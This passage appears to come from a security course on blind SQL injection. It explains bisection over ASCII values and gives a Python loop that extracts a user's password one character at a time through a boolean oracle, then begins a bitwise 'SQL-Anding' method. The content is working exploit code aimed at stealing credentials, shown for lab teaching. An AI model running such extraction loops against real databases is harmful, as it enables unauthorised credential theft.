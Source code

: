```bash
LBound = 44, UBound = 46
-> Midpoint = (44+46)//2 = 45
-> Is <target> between 44 and 45? -> ASCII(SUBSTRING(password,1,1)) BETWEEN 44 AND 45
-> Yes: UBound = 45 - 1 = 44

LBound = 44, UBound = 45
-> Midpoint = (44+45)//2 = 44
-> Is <target> between 44 and 44? -> ASCII(SUBSTRING(password,1,1)) BETWEEN 44 AND 44
-> No: LBound = 44 + 1 = 45

LBound = 45 = Target

```

We can see that the target value is now stored in `LBound`, and it only took `7` requests instead of the `45` that it would've taken the script we wrote last section.

**Tip:** You may also set the lower bound to 32 to limit the characters to printable ASCII ones, like we did in the previous section.

Implementing this algorithm in our script is not very hard. Just make sure to comment out the previous loop first.

```python
# Dump the target's password
# ...

# Dump the target's password (Bisection)
print("[*] Password = ", end='')
for i in range(1, length + 1):
    low = 0
    high = 127
    while low <= high:
        mid = (low + high) // 2
        if oracle(f"ASCII(SUBSTRING(password,{i},1)) BETWEEN {low} AND {mid}"):
            high = mid -1
        else:
            low = mid + 1
    print(chr(low), end='')
    sys.stdout.flush()
print()

```

In total, the bisection algorithm requires `256` requests and `61.556` seconds to dump `maria's` password. This is a great improvement.

## SQL-Anding

`SQL-Anding` is another algorithm we can use to reduce the number of requests necessary. It involves thinking a little bit in binary. ASCII characters have values `0-127`, which in binary are `00000000-01111111`. Since the `most significant bit` is always a `0`, we only need to dump `7` of these bits. We can dump bits by having the server evaluate bitwise-and queries which are `true` if the targeted bit is a `1`, and `false` if the bit is a `0`.

